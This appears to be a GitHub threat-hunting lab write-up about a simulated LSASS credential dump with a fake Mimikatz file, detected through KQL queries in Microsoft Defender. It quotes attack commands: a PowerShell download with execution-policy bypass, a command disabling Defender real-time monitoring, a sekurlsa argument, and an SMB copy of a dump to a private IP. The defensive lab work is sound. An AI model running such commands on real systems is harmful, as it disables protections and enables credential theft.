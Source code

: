 # Threat Event: Credential Dumping via LSASS Access  
**Simulated Credential Theft Using PowerShell and Fake Mimikatz Tool**

![image](https://github.com/user-attachments/assets/47315c4e-f225-45ae-8ca9-a0850feb1e12)


- [Scenario Creation](https://github.com/aduragbemioo/Threat-Hunt-Scenario-Credential-Dumping-via-LSASS-Access/blob/main/scenario.md)

---
## Platforms and Tools Used

- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- PowerShell                         
- mimi-sim.exe (Fake executable mimicking Mimikatz behavior)


---

## Senario

### 🚨 CISA Advisory and Internal Management Directive  
Due to a recent alert from CISA warning of increased attacker activity targeting the LSASS process for credential dumping using tools like **Mimikatz** and **ProcDump**, management directed a proactive hunt for related activity across endpoints.

---



---

## Investigation Steps

---

### 🔍 **1. Detection of Suspicious Tool Creation or Download**

```kusto
DeviceFileEvents
| where FileName has_any ("debug", "mimi", "procdump") 
| where FileName endswith ".exe"
| project Timestamp, DeviceName, InitiatingProcessAccountName, FileName, FolderPath, ActionType
```
Found creation of mimi-sim.exe under a user profile on device ad-stig-impleme.
![image](https://github.com/user-attachments/assets/5a29e839-379c-41a3-85f9-77f6b8afb1b7)


🧠 2. Execution of Simulated Mimikatz with sekurlsa Argument

```kusto
DeviceProcessEvents
| where DeviceName == "ad-stig-impleme"
| where ProcessCommandLine has_any ("mimi-sim.exe", "sekurlsa")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine
```
The actual executable is fake, so it didn't run, but we see PowerShell initiating the command: `"powershell.exe" -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/aduragbemioo/Threat-Hunt-Scenario-Credential-Dumping-via-LSASS-Access/refs/heads/main/mimi-sim.exe -OutFile C:\Users\vullab\Downloads\mimi-sim.exe`
![image](https://github.com/user-attachments/assets/321fb2e6-c432-43aa-993c-4823dd902bbe)



🗂️ 3. LSASS Dump File Creation Detection
What is LSASS Dumping?
Attackers dump the memory of the lsass.exe process to extract plaintext credentials. This is commonly used for:

- Privilege escalation
- Lateral movement
- Credential theft

```kusto
DeviceFileEvents
| where DeviceName == "ad-stig-impleme"
| where FileName =~ "lsass.dmp"
| where FolderPath has_any ("\\Temp\\", "\\AppData\\Local\\Temp\\", "\\Desktop\\")
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessCommandLine, ActionType
```
- The simulated script created a fake lsass.dmp on the `desktop` and `\AppData\Local\Temp` folders
- The event was logged after mimi-sim.exe was dropped.
![image](https://github.com/user-attachments/assets/a598ffa8-e292-4a14-a647-28b1d86c895d)

📤 4. Simulated Exfiltration to Remote Network
```kusto
DeviceNetworkEvents
| where DeviceName == "ad-stig-impleme"
| where InitiatingProcessFileName in~ ("powershell.exe", "cmd.exe", "wscript.exe", "cscript.exe", "ntoskrnl.exe")
| where RemotePort !in (80,443)
| project Timestamp, DeviceName, InitiatingProcessFileName, InitiatingProcessCommandLine, ActionType, RemoteIP, RemotePort, RemoteIPType, RemoteUrl
| order by Timestamp asc
```
- Simulated copy to a private IP (e.g., \\192.168.1.99\shared) caused network activity.
- No actual exfiltration occurred, but logs reflect the attempt.

![image](https://github.com/user-attachments/assets/cf7d5bcd-5814-4ade-8a7d-604c50f59fb8)


🛡️ 5. Defender Realtime Monitoring Tampering Attempt

```kusto
DeviceProcessEvents
| where DeviceName == "ad-stig-impleme"
| where ProcessCommandLine has "Set-MpPreference" and ProcessCommandLine has "DisableRealtimeMonitoring"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```
- PowerShell attempted to run: Set-MpPreference -DisableRealtimeMonitoring $true

![image](https://github.com/user-attachments/assets/6cdb4645-55aa-4782-912b-b603bfddd2f3)

- Defender logged the attempt, useful for detecting tampering efforts.


## Chronological Event Timeline

### 1. Suspicious File Drop

- **Timestamp:** 2025-06-25T19:15:18.3442829Z 
- **Event:** Dropped `mimi-sim.exe` into the Downloads directory via PowerShell.  
- **Folder Path:** Likely under `C:\Users\vullab\Downloads\mimi-sim.exe`  

---

### 2. Defender Tampering Attempt

- **Timestamp:** 2025-06-25T19:16:38.3626718Z
- **Event:** PowerShell attempted to disable Windows Defender’s Real-Time Protection.  
- **Command Line:** `Set-MpPreference -DisableRealtimeMonitoring $true`  

---

### 3. Simulated Credential Dump Execution

- **Timestamp:** 2025-06-25T19:56:37.7992988Z
- **Event:** Execution of fake Mimikatz logic via PowerShell.  
- **Command Line:** `powershell.exe -ExecutionPolicy Bypass -Command "sekurlsa::logonpasswords"`  

---

### 4. LSASS Memory Dump File Created

- **Timestamp:** 2025-06-25T19:16:43.2317559Z and 2025-06-25T23:26:21.5826554Z
- **Event:** Simulated creation of `lsass.dmp` representing a memory dump of LSASS.  
- **Path:** `C:\Users\vullab\AppData\Local\Temp\lsass.dmp` and `C:\Users\vullab\Desktop\lsass.dmp`  

---

### 5. Simulated Exfiltration Attempt

- **Timestamp:** 2025-06-25T19:17:04.3343329Z and 2025-06-25T19:17:05.4279126Z
- **Event:** PowerShell attempted to copy the dump file to a remote share over SMB.  
- **Remote IP:** `192.168.1.99` (simulated private IP for testing)  
- **Port:** SMB (445), SMB (139)

---

## Summary of Hunt Findings

A simulated credential dumping activity was conducted using a fake executable (`mimi-sim.exe`). The activity mimics techniques used by real attackers attempting to extract credentials from LSASS memory and exfiltrate the data. One device was identified with relevant indicators.

- **Affected Device**: `ad-stig-impleme`
- **Simulated Tools Used**: `mimi-sim.exe` and `PowerShell`
- **Key Behaviors Observed**:
  - Credential dump simulation using PowerShell
  - Fake LSASS memory dump creation
  - Simulated exfiltration to a private IP
  - Attempt to disable Windows Defender Real-Time Monitoring

---

## Response Taken

- Device `ad-stig-impleme` was **flagged for observation**; no real credentials were compromised.  
- Simulation logs were preserved for SOC detection rule validation.  
-Defender alerting was reviewed and confirmed to cover all key behaviors.




